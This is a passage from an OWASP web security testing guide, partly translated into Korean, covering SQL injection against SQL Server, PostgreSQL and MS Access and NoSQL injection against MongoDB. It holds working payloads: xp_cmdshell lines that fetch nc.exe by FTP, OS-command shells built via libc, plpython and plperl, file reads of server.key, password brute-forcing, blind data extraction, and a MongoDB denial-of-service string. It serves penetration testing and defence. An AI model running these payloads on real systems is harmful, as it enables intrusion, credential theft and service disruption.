    exec master..xp_cmdshell 'echo USER >> ftpscript.txt';-- 
    exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
    exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, debug.exe, that is installed by default in all Windows machines. Debug.exe is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call debug.exe on it. There are several tools that create such debug files (e.g.: makescr.exe by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to inject will therefore be the following: 

.. code-block:: html

    exec master..xp_cmdshell 'echo [debug script line #1 of n] > 
    debugscript.txt';--
    exec master..xp_cmdshell 'echo [debug script line #2 of n] >> 
    debugscript.txt';--
    .... 
    exec master..xp_cmdshell 'echo [debug script line #n of n] >> 
    debugscript.txt';--
    exec master..xp_cmdshell 'debug.exe < debugscript.txt';--

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably Bobcat, which runs on Windows, and Sqlninja, which runs on Unix (See the tools at the bottom of this page). 

Obtain information when it is not displayed (Out of band) 
--------------------------------------------------------------------------------------------

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. Blind SQL Injection). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested. 
Other options for out of band attacks are described in Sample 4 above. 


Blind SQL injection attacks 
============================================================================================

Trial and error 
--------------------------------------------------------------------------------------------

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), use fuzz vectors (1) against this channel and watch the response. For example, if the web application is looking for a book using a query 

.. code-block:: html

    select * from books where title=text entered by the user

then the penetration tester might enter the text: 'Bomba' OR 1=1- and if data is not properly validated, the query will go through and return the whole list of books. This is evidence that there is a SQL injection vulnerability. The penetration tester might later play with the queries in order to assess the criticality of this vulnerability. 


If more than one error message is displayed 
--------------------------------------------------------------------------------------------

On the other hand, if no prior information is available, there is still a possibility of attacking by exploiting any covert channel. It might happen that descriptive error messages are stopped, yet the error messages give some information. For example: 
. 
In some cases the web application (actually the web server) might return the traditional 500: Internal Server Error, say when the application returns an exception that might be generated, for instance, by a query with unclosed quotes. 

. 
While in other cases the server will return a 200 OK message, but the web application will return some error message inserted by the developers Internal server error or bad data. 


This one bit of information might be enough to understand how the dynamic SQL query is constructed by the web application and tune up an exploit. Another out-of-band method is to output the results through HTTP browseable files. 

|

Timing attacks 
--------------------------------------------------------------------------------------------

There is one more possibility for making a blind SQL injection attack when there is not visible feedback from the application: by measuring the time that the web application takes to answer a request. An attack of this sort is described by Anley in ([2]) from where we take the next examples. A typical approach uses the waitfor delay command: let's say that the attacker wants to check if the 'pubs' sample database exists, he will simply inject the following command: 

.. code-block:: html

    select * from books where title=text entered by the user 

Depending on the time that the query takes to return, we will know the answer. In fact, what we have here is two things: a SQL injection vulnerability and a covert channel that allows the penetration tester to get 1 bit of information for each query. Hence, using several queries (as many queries as bits in the required information) the pen tester can get any data that is in the database. Look at the following query 

.. code-block:: html

    declare @s varchar(8000) 
    declare @i int 
    select @s = db_name() 
    select @i = [some value] 
    if (select len(@s)) < @i waitfor delay '0:0:5' 


Measuring the response time and using different values for @i, we can deduce the length of the name of the current database, and then start to extract the name itself with the following query: 

.. code-block:: html

    if (ascii(substring(@s, @byte, 1)) & ( power(2, @bit))) > 0 
    waitfor delay '0:0:5' 

This query will wait for 5 seconds if bit '@bit' of byte '@byte' of the name of the current database is 1, and will return at once if it is 0. Nesting two cycles (one for @byte and one for @bit) we will we able to extract the whole piece of information. 

However, it might happen that the command waitfor is not available (e.g., because it is filtered by an IPS/web application firewall). This doesn't mean that blind SQL injection attacks cannot be done, as the pen tester should only come up with any time consuming operation that is not filtered. For example 

.. code-block:: html

    declare @i int select @i = 0 
    while @i < 0xaffff begin 
    select @i = @i + 1 
    end 

|

Checking for version and vulnerabilities 
--------------------------------------------------------------------------------------------

The same timing approach can be used also to understand which version of SQL Server we are dealing with. Of course we will leverage the built-in @@version variable. Consider the following query: 

.. code-block:: html

    select @@version 

OnSQL Server 2005, it will return something like the following: 

.. code-block:: html

    Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) Oct 14 
    2005 00:33:37 <snip> 

The '2005' part of the string spans from the 22nd to the 25th character. Therefore, one query to inject can be the following: 

.. code-block:: html

    if substring((select @@version),25,1) = 5 waitfor delay 
    '0:0:5' 

Such query will wait 5 seconds if the 25th character of the @@version variable is '5', showing us that we are dealing with a SQL Server 2005. If the query returns immediately, we are probably dealing with SQL Server 2000, and another similar query will help to clear all doubts. 

|

Example 9: bruteforce of sysadmin password 
--------------------------------------------------------------------------------------------

To bruteforce the sysadmin password, we can leverage the fact that OPENROWSET needs proper credentials to successfully perform the connection and that such a connection can be also "looped" to the local DB Server. Combining these features with an inferenced injection based on response timing, we can inject the following code: 

.. code-block:: html

    select * from OPENROWSET('SQLOLEDB','';'sa';'<pwd>','select 
    1;waitfor delay ''0:0:5'' ') 

What we do here is to attempt a connection to the local database (specified by the empty field after 'SQLOLEDB') using "sa" and "<pwd>" as credentials. If the password is correct and the connection is successful, the query is executed, making the DB wait for 5 seconds (and also returning a value, since OPENROWSET expects at least one column). Fetching the candidate passwords from a wordlist and measuring the time needed for each connection, we can attempt to guess the correct password. In "Data-mining with SQL Injection and Inference", David Litchfield pushes this technique even further, by injecting a piece of code in order to brute-force the sysadmin password using the CPU resources of the DB Server itself. 
Once we have the sysadmin password, we have two choices: 
. 
Inject all following queries using OPENROWSET, in order to use sysadmin privileges 

. 
Add our current user to the sysadmin group using sp_addsrvrolemember. The current user name can be extracted using inferenced injection against the variable system_user. 


Remember that OPENROWSET is accessible to all users on SQL Server 2000 but it is restricted to administrative accounts on SQL Server 2005. 

|

Tools 
============================================================================================

- Francois Larouche: Multiple DBMS SQL Injection tool - [SQL Power Injector] 
- Northern Monkee: [Bobcat] 
- icesurfer: SQL Server Takeover Tool - [sqlninja] 
- Bernardo Damele A. G.: sqlmap, automatic SQL injection tool -http://sqlmap.org/ 


|

References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- David Litchfield: "Data-mining with SQL Injection and Inference": http://www.databasesecurity.com/webapps/sqlinference.pdf 
- Chris Anley, "(more) Advanced SQL Injection": http://www.encription.co.uk/downloads/more_advanced_sql_injection.pdf 
- Steve Friedl's Unixwiz.net Tech Tips: "SQL Injection Attacks by Example" - http://www.unixwiz.net/techtips/sql-injection.html 
- Alexander Chigrik: "Useful undocumented extended stored procedures" - http://www.mssqlcity.com/Articles/Undoc/ UndocExtSP.htm 
- Antonin Foller: "Custom xp_cmdshell, using shell object": http://www.motobit.com/tips/detpg_cmdshell
- Paul Litwin: "Stop SQL Injection Attacks Before They Stop You": http://msdn.microsoft.com/en-us/magazine/cc163917.aspx 
- SQL Injection -http://msdn2.microsoft.com/en-us/library/ms161953.aspx 
- Cesar Cerrudo: Manipulating Microsoft SQL Server Using SQL Injection -http://www.appsecinc.com/presentations/ Manipulating_SQL_Server_Using_SQL_Injection.pdf uploading files, getting into internal network, port scanning, DOS 

|

|

============================================================================================
OWASP Backend Security Project Testing PostgreSQL
============================================================================================

개요
============================================================================================

In this section, some SQL Injection techniques for PostgreSQL will be discussed. These techniques have the following characteristics: 


- PHP Connector allows multiple statements to be executed by using ; as a statement separator 
- SQL Statements can be truncated by appending the comment char: --. 
- LIMIT and OFFSET can be used in a SELECT statement to retrieve a portion of the result set generated by the query 


From now on it is assumed that http://www.example.com/news. php?id=1 is vulnerable to SQL Injection attacks. 

|

테스트 방법
============================================================================================

Identifying PostgreSQL 
--------------------------------------------------------------------------------------------

When a SQL Injection has been found, you need to carefully fingerprint the backend database engine. You can determine that the backend database engine is PostgreSQL by using the :: cast operator. 

**예제**

In addition, the function version() can be used to grab the PostgreSQL banner. This will also show the underlying operating system type and version. 

.. code-block:: console

    http://www.example.com/store.php?id=1 AND 1::int=1

An example of a banner string that could be returned is: 

.. code-block:: console

    PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc 
    (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)


Blind Injection 
--------------------------------------------------------------------------------------------

For blind SQL injection attacks, you should take into consideration the following built-in functions: 

- 문자열 길이

.. code-block:: console
    
    LENGTH(str) 

- 주어진 문자열로 부터 부분 문자 추출

.. code-block:: console

    SUBSTR(str,index,offset) 

- String representation with no single quotes 

.. code-block:: console

    CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111) 

Starting at version 8.2, PostgreSQL introduced a built-in function, pg_sleep(n), to make the current session process sleep for n seconds.
This function can be leveraged to execute timing attacks (discussed in detail at Blind SQL Injection). 
In addition, you can easily create a custom pg_sleep(n) in previous versions by using libc: 

- CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT 

Single Quote unescape 
--------------------------------------------------------------------------------------------

Strings can be encoded, to prevent single quotes escaping, by using chr() function. 

- chr(n): Returns the character whose ASCII value corresponds to the number n 
- ascii(n): Returns the ASCII value which corresponds to the character n 

Let's say you want to encode the string 'root': 

.. code-block:: console

    select ascii('r')
    114
    select ascii('o')
    111
    select ascii('t')
    116 

We can encode 'root' as: 

.. code-block:: console

    chr(114)||chr(111)||chr(111)||chr(116)

**예제**

.. code-block:: console
  
    http://www.example.com/store.php?id=1; UPDATE users 
    SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--

Attack Vectors 
============================================================================================

Current User 
--------------------------------------------------------------------------------------------

The identity of the current user can be retrieved with the following SQL SELECT statements: 

.. code-block:: html

    SELECT user
    SELECT current_user
    SELECT session_user
    SELECT usename FROM pg_user
    SELECT getpgusername()

**예제**

.. code-block:: html

    http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
    http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--

|

Current Database 
--------------------------------------------------------------------------------------------

The built-in function current_database() returns the current database name. 

**예제**

.. code-block:: html

    http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL-

|

Reading from a file 
--------------------------------------------------------------------------------------------

PostgreSQL provides two ways to access a local file: 
 
- COPY statement 
- pg_read_file() internal function (starting from PostgreSQL 8.1) 


COPY: 
This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the postgres user. 

**예제**

.. code-block:: html

    /store.php?id=1; CREATE TABLE file_store(id serial, data text)--
    /store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--

Data should be retrieved by performing a UNION Query SQL Injection: 
 
- retrieves the number of rows previously added in file_store with COPY statement 
- retrieves a row at a time with UNION SQL Injection 

**예제**

    /store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
    ... 
    ... 
    /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--

g_read_file(): 

This function was introduced in PostgreSQL 8.1 and allows one to read arbitrary files located inside DBMS data directory. 

**예제**

.. code-block:: html

    SELECT pg_read_file('server.key',0,1000); 

|

Writing to a file 
--------------------------------------------------------------------------------------------

By reverting the COPY statement, we can write to the local file system with the postgres user rights 

.. code-block:: html

    /store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--

|

Shell Injection 
--------------------------------------------------------------------------------------------

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl. 

|

Dynamic Library 
--------------------------------------------------------------------------------------------

Until PostgreSQL 8.1, it was possible to add a custom function linked with libc: 

- CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc. so.6', 'system' LANGUAGE 'C' STRICT 

Since system returns an int how we can fetch results from system stdout? 

Here's a little trick: 

1. create a stdout table 

.. code-block:: html

    CREATE TABLE stdout(id serial, system_out text) 
2. executing a shell command redirecting its stdout 

.. code-block:: html

    SELECT system('uname -a > /tmp/test') 

3. use a COPY statements to push output of previous command in stdout table 

.. code-block:: html

    COPY stdout(system_out) FROM '/tmp/test' 

4. retrieve output from stdout 

.. code-block:: html

    SELECT system_out FROM stdout 

**예제**

.. code-block:: html

    /store.php?id=1; CREATE TABLE stdout(id serial, system_out text)--
    /store.php?id=1; CREATE FUNCTION system(cstring) RE
    TURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C' 
    STRICT--
    /store.php?id=1; SELECT system('uname -a > /tmp/test')--
    /store.php?id=1; COPY stdout(system_out) FROM '/tmp/ 
    test'--
    /store.php?id=1 UNION ALL SELECT NULL,(SELECT sys
    tem_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 
    OFFSET 1--

|

plpython 
--------------------------------------------------------------------------------------------

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by CREATELANG 

1. Check if PL/Python has been enabled on a database: 


.. code-block:: html

    SELECT count(*) FROM pg_language WHERE lanname='plpythonu' 

2. If not, try to enable: 


.. code-block:: html

    CREATE LANGUAGE plpythonu 

3. If either of the above succeeded, create a proxy shell function: 


.. code-block:: html

    CREATE FUNCTION proxyshell(text) RETURNS text 
    AS 'import os; return os.popen(args[0]).read() 
    'LANGUAGE plpythonu;--

4. Have fun with: 

.. code-block:: html

    SELECT proxyshell(os command); 

**예제**

1. Create a proxy shell function: 

- /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read()' LANGUAGE plpythonu;-- 

Since system returns an int how we can fetch results from system

2. Run an OS Command: 

- /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 

|

plperl
--------------------------------------------------------------------------------------------

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as open. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the postgres user, to avoid the so-called application mask filtering of trusted/untrusted operations. 


1. Check if PL/perl-untrusted has been enabled: 

- SELECT count(*) FROM pg_language WHERE lanname='plperlu' 

2. If not, assuming that sysadm has already installed the plperl package, try : 

- CREATE LANGUAGE plperlu 

3. If either of the above succeeded, create a proxy shell function: 

- CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu 

4. Have fun with: 

- SELECT proxyshell(os command); 

|

**예제**

1. Create a proxy shell function: 

- /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu; 


2. Run an OS Command: 

- /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 

|

References 
============================================================================================

- OWASP : "Testing for SQL Injection" 
- OWASP : SQL Injection Prevention Cheat Sheet 
- PostgreSQL : "Official Documentation": http://www.postgresql.org/docs/
- Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injec tion tool: http://sqlmap.sourceforge.net 

|

|

============================================================================================
MS Access 테스트
============================================================================================


개요
============================================================================================

As explained in the generic SQL injection section, SQL injection vulnerabilities occur whenever user-supplied input is used during the construction of a SQL query without being adequately constrained or sanitized. This class of vulnerabilities allows an attacker to execute SQL code under the privileges of the user that is used to connect to the database. In this section, relevant SQL injection techniques that utilize specific features of Microsoft Access will be discussed. 

|

테스트 방법
============================================================================================

핑거프린팅
--------------------------------------------------------------------------------------------

Fingerprinting the specific database technology while testing SQL-powered application is the first step to properly asses potential vulnerabilities. A common approach involves injecting standard SQL injection attack patterns (e.g. single quote, double quote, ...) in order to trigger database exceptions. Assuming that the application does not handle exceptions with custom pages, it is possible to fingerprint the underline DBMS by observing error messages. 
Depending on the specific web technology used, MS Access driven applications will respond with one of the following errors: 

.. code-block:: html

    Fatal error: Uncaught exception 'com_exception' with mes
    sage Source: Microsoft JET Database Engine 

or 

.. code-block:: html

    Microsoft JET Database Engine error '80040e14' 

.. code-block:: html

    or Microsoft Office Access Database Engine 

In all cases, we have a confirmation that we're testing an application using MS Access database. 

|

기본 테스트
--------------------------------------------------------------------------------------------

Unfortunately, MS Access doesn't support typical operators that are traditionally used during SQL injection testing, including: 

- No comments characters 
- No stacked queries 
- No LIMIT operator 
- No SLEEP or BENCHMARK alike operators 
- and many others 


Nevertheless, it is possible to emulate those functions by combining multiple operators or by using alternative techniques. As mentioned, it is not possible to use the trick of inserting the characters /*, -- or # in order to truncate the query. However, we can fortunately bypass this limitation by injecting a 'null' character. Using a null byte %00 within a SQL query results in MS Access ignoring all remaining characters. This can be explained by considering that all strings are NULL terminated in the internal representation used by the database. It is worth mentioning that the 'null' character can sometimes cause troubles too as it may truncate strings at the web server level. In those situations, we can however employ another character: 0x16 (%16 in URL encoded format). 

Considering the following query: 

.. code-block:: html

    SELECT [username],[password] FROM users WHERE [user
    name]='$myUsername' AND [password]='$myPassword' 

We can truncate the query with the following two URLs: 

.. code-block:: html

    http://www.example.com/page.asp?user=admin'%00&
    pass=foo 
    http://www.example.com/page.app?user=admin'%16&
    pass=foo 

The LIMIT operator is not implemented in MS Access, however it is possible to limit the number of results by using the TOP or LAST operators instead. 

.. code-block:: html

    http://www.example.com/page.app?id=2'+UNION+SE
    LECT+TOP+3+name+FROM+appsTable%00 

By combining both operators, it is possible to select specific re
sults. String concatenation is possible by using & (%26) and + (%2b) 
characters. 

There are also many other functions that can be used while testing SQL injection, including but not limited to: 

- ASC: Obtain the ASCII value of a character passed as input 
- CHR: Obtain the character of the ASCII value passed as input 
- LEN: Return the length of the string passed as parameter 
- IIF: Is the IF construct, for example the following statement IIF(1=1, 'a', 'b') return 'a' 
- MID: This function allows you to extract substring, for example the following statement mid('abc',1,1) return 'a' 
- TOP: This function allows you to specify the maximum number of results that the query should return from the top. For example TOP 1 will return only 1 row. 
- LAST: This function is used to select only the last row of a set of rows. For example the following query SELECT last(*) FROM users will return only the last row of the result. 


Some of these operators are essential to exploit blind SQL injections. For other advanced operators, please refer to the documents in the references. 

|

Attributes Enumeration 
--------------------------------------------------------------------------------------------

In order to enumerate the column of a database table, it is possible to use a common error-based technique. In short, we can obtain the attributes name by analyzing error messages and repeating the query with different selectors. For example, assuming that we know the existence of a column, we can also obtain the name of the remaining attributes with the following query: 

.. code-block:: html

    ' GROUP BY Id%00 

In the error message received, it is possible to observe the name of the next column. At this point, we can iterate the method until we obtain the name of all attributes. If we don't know the name of the first attribute, we can still insert a fictitious column name and obtain the name of the first attribute within the error message. 
Obtaining Database Schema 
Various system tables exist by default in MS Access that can be potentially used to obtain table names and columns. Unfortunately, in the default configuration of recent MS Access database releases, these tables are not accessible. Nevertheless, it is always worth trying: 

- MSysObjects 
- MSysACEs 
- MSysAccessXML 

For example, if a union SQL injection vulnerability exists, you can use the following query: 

.. code-block:: html

    ' UNION SELECT Name FROM MSysObjects WHERE Type = 1%00 

Alternatively, it is always possible to bruteforce the database schema by using a standard wordlist (e.g. FuzzDb). 

In some cases, developers or system administrators do not realize that including the actual .mdb file within the application webroot can allow to download the entire database. Database filenames can be inferred with the following query: 

.. code-block:: html

    http://www.example.com/page.app?id=1'+UNION+SELECT+1+FROM+name.table%00 

where name is the .mdb filename and table is a valid database table. In case of password protected databases, multiple software utilities can be used to crack the password. Please refer to the references. 


|

Blind SQL Injection Testing 
============================================================================================

Blind SQL Injection vulnerabilities are by no means the most easily exploitable SQL injections while testing real-life applications. In case of recent versions of MS Access, it is also not feasible to execute shell commands or read/write arbitrary files. 
In case of blind SQL injections, the attacker can only infer the result of the query by evaluating time differences or application responses. It is supposed that the reader already knows the theory behind blind SQL injection attacks, as the remaining part of this section will focus on MS Access specific details. 
The following example is used: 

.. code-block:: html

    http://www.example.com/index.php?myId=[sql] 

where the id parameter is used within the following query: 

.. code-block:: html

    SELECT * FROM orders WHERE [id]=$myId 

Let's consider the myId parameter vulnerable to blind SQL injection. As an attacker, we want to extract the content of column 'username' in the table 'users', assuming that we have already disclosed the database schema. 
A typical query that can be used to infer the first character of the user-name of the 10th rows is: 

.. code-block:: html

    http://www.example.com/index.php?id=IIF((select%20 
    MID(LAST(username),1,1)%20from%20(select%20TOP%20 
    10%20username%20from%20users))='a',0,'no') 

If the first character is 'a', the query will return 0 or otherwise the string 'no'. 
By using a combination of the IFF, MID, LAST and TOP functions, it is possible to extract the first character of the username on a specifically selected row. As the inner query returns a set of records, and not just one, it is not possible to use it directly. Fortunately, we can combine multiple functions to extract a specific string. 


Let's assume that we want to retrieve the username of the 10th row. First, we can use the TOP function to select the first ten rows using the following query: 

.. code-block:: html

    SELECT TOP 10 username FROM users

Then, using this subset, we can extract the last row by using the LAST function. Once we have only one row and exactly the row containing our string, we can use the IFF, MID and LAST functions to infer the actual value of the username. In our example, we employ IFF to return a number or a string. Using this trick, we can distinguish whether we have a true response or not, by observing application error responses. As id is numeric, the comparison with a string results in a SQL error that can be potentially leaked by 500 Internal Server Error pages. Otherwise, a standard 200 OK page will be likely returned. For example, we can have the following query: 

.. code-block:: html

    http://www.example.com/index.php?id='%20AND%20 
    1=0%20OR%20'a'=IIF((select%20MID(LAST(user
    name),1,1)%20from%20(select%20TOP%2010%20user
    name%20from%20users))='a','a','b')%00 

that is TRUE if the first character is 'a' or false otherwise. 
As mentioned, this method allows to infer the value of arbitrary strings within the database: 

1. By trying all printable values, until we find a match 
2. By inferring the length of the string using the LEN function, or by simply stopping after we have found all characters 

Time-based blind SQL injections are also possible by abusing heavy queries. 

|

References 
============================================================================================

- http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html 
- http://packetstormsecurity.com/files/65967/Access-ThroughAccess.pdf.html 
- http://seclists.org/pen-test/2003/May/74 
- http://www.techonthenet.com/access/functions/index_ alpha.php 
- http://en.wikipedia.org/wiki/Microsoft_Access 


|

|

============================================================================================
NoSQL 인젝션 테스트
============================================================================================

개요 
============================================================================================

NoSQL databases provide looser consistency restrictions than traditional SQL databases. 
By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax. Because these NoSQL injection attacks may execute within a procedural[1] language , rather than in the declarative[2] SQL language, the potential impacts are greater than traditional SQL injection. 

NoSQL database calls are written in the application's programming language, a custom API call, or formatted according to a common convention (such as XML, JSON, LINQ, etc). Malicious input targeting those specifications may not trigger the primarily application sanitization checks. For example, filtering out common HTML special characters such as < > & ; will not prevent attacks against a JSON API, where special characters include / { } : . 

There are now over 150 NoSQL databases available[3] for use within an application, providing APIs in a variety of languages and relationship models. Each offers different features and restrictions. Because there is not a common language between them, example injection code will not apply across all NoSQL databases. For this reason, anyone testing for NoSQL injection attacks will need to familiarize themselves with the syntax, data model, and underlying programming language in order to craft specific tests. 

NoSQL injection attacks may execute in different areas of an application than traditional SQL injection. Where SQL injection would execute within the database engine, NoSQL variants may execute during within the application layer or the database layer, depending on the NoSQL API used and data model. Typically NoSQL injection attacks will execute where the attack string is parsed, evaluated, or concatenated into a NoSQL API call. 

Additional timing attacks may be relevant to the lack of concurrency checks within a NoSQL database. These are not covered under injection testing. At the time of writing MongoDB is the most widely used NoSQL database, and so all examples will feature MongoDB APIs. 

|

테스트 방법
============================================================================================

MongoDB에 NoSQL 인젝션 취약점 테스트
--------------------------------------------------------------------------------------------

MongoDB에서 가장 일반적으로 사용되는 API 호출은 임의 자바스크립트 입력을 허용하는 $where 연산자입니다.
$where 연산자는 일반적으로 간단한 필터 또는 확인에 사용됩니다.

.. code-block:: javascript
 
    db.myCollection.find(
    {
        $where: "this.credits == this.debits"
    }
    ); 

아래와 같은 자바스크립트 함수 형식으로도 사용 가능합니다.

.. code-block:: javascript

    db.myCollection.find(
    {
        $where: function()
                {
                    return obj.credits-obj.debits < 0;
                }
    }
    ); 

|

예제 1 
--------------------------------------------------------------------------------------------

만약 공격자가 $where 연산자 내에 데이터를 조작할 수 있다면, 공격자는 MongoDB 쿼리 부분에 임의의 
자바스크립트를 삽입할 수 있습니다.
사용자 입력에 대한 필터 없이 MongoDB 쿼리가 직접 전달될 경우 다음 코드처럼 노출됩니다.

.. code-block:: javascript

    b.myCollection.find(
    {
        active: true, 
        $where: function()
                {
                    return obj.credits-obj.debits < $userInput;
                }
    }
    );

MongoDB에서는 아래와 같은 특수문자를 통해 구문을 우회하여 공격에 성공할 수 있습니다.

.. code-block:: html

    ' " \ ; { } 

일반적인 SQL 인젝션과 마찬가지로 임의로 데이터를 조작하는 SQL 명령을 실행할 수 있습니다.
또한, 자바스크립트 언어가 가능하기 때문에 데이터 조작 뿐만 아니라 임의의 코드 실행이 가능합니다.

[입력 값]

.. code-block:: javascript

    0;var date=new Date(); do{curDate = new Date();} while(curDate-date<10000)

위 입력 값을 $userInput에 입력하게 되면 아래와 같이 자바스크립트 함수가 실행되게 됩니다.
이 공격 문자열은 전체 MongoDB 인스턴스를 10초 동안 100%의 CPU 사용률으로 실행되게 합니다.

.. code-block:: html

    function()
    {
        return obj.credits-obj.debits < 0;
        var date=new Date();
        do{curDate = new Date();}
        while(curDate-date < 10000);
    } 

|

예제 2 
--------------------------------------------------------------------------------------------

쿼리 내에서 사용되는 입력을 완전히 필터링 또는 파라미터화 된 경우라도, NoSQL 인젝션을 유발할 수있는 대체 경로가 있습니다.
대부분의 NoSQL 인스턴스는 어플리케이션 프로그래밍 언어와 무관하게 자신의 소유 변수 이름을 갖고 있습니다.

예를 들어, MongoDB의 경우 $where 구문이라는 자신의 소유 변수가 있습니다. 

It needs to be passed into the query exactly as shown; any alteration would cause a database error. However, because $where is also a valid PHP variable name, it may be possible for an attacker to insert code into the query by creating a PHP variable named $where. The PHP MongoDB documentation explicitly warns developers: 

.. code-block:: console

    Please make sure that for all special query operators (starting with $) you use single quotes so that PHP doesn't try to replace "$exists" with the value of the variable $exists. 

Even if a query depended on no user input, such as the following example, an attacker could exploit MongoDB by replacing the operator with malicious data. 

.. code-block:: console

    db.myCollection.find(
    {
        $where: function()
                {
                    return obj.credits-obj.debits < 0;
                }
    }
    ); 

잠재적으로 PHP 변수로 데이터를 할당하는 한가지 방법은 HTTP 파라미터 감염을 이용하는 것입니다. (HTTP 파라미터 감염 침투 테스트(OTG-INPVAL-004)). 
파라미터 감염을 통해 $where라는 변수를 생성할 수 있다면, 유효하지 않은 쿼리를 통해 MongoDB 에러를 트리거할 수 있습니다.

[입력 값]

.. code-block:: console

    $where: function() 
    {
        //arbitrary JavaScript here
    }

|

References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- Bryan Sullivan from Adobe: "Server-Side JavaScript Injection": https://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_Sullivan_Server_Side_WP.pdf 
- Bryan Sullivan from Adobe: "NoSQL, But Even Less Security": http://blogs.adobe.com/asset/files/2011/04/NoSQL-ButEven-Less-Security.pdf 
- Erlend from Bekk Consulting: "[Security] NOSQL-injection": http://erlend.oftedal.no/blog/?blogid=110
- Felipe Aragon from Syhunt: "NoSQL/SSJS Injection": http://www.syhunt.com/?n=Articles.NoSQLInjection
- MongoDB Documentation: "How does MongoDB address SQL or Query injection?": http://docs.mongodb.org/manual/ faq/developers/#how-does-mongodb-address-sql-or-queryinjection
- PHP Documentation: "MongoCollection::find": http://php.net/manual/en/mongocollection.find.php
- "Hacking NodeJS and MongoDB": http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html 
- "Attacking NodeJS and MongoDB": http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html 

|